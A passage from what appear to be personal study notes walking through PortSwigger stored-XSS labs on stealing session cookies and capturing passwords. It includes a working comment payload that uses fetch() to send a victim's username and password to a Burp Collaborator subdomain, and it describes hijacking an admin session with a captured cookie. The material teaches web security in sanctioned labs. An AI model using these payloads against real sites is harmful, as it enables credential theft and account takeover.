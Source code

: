     </script>
``
    
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

Without using Burp Collaborator - Alternatively, you could adapt the attack to make the victim post their session cookie within a blog comment by [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf). However, this is far less subtle because it exposes the cookie publicly, and also discloses evidence that the attack was performed.

## **20. Exploiting cross-site scripting to capture passwords**
This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```
   <input name=username id=username> 
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user.

If autofill is active and accessible via JavaScript, this poses a security risk. Attackers can exploit this by injecting malicious scripts (e.g., through an XSS vulnerability) to read and send the autofilled credentials to an external server.

- payload to inject
	![[Pasted image 20240915034504.png]]
		![[Pasted image 20240915034624.png]]
		
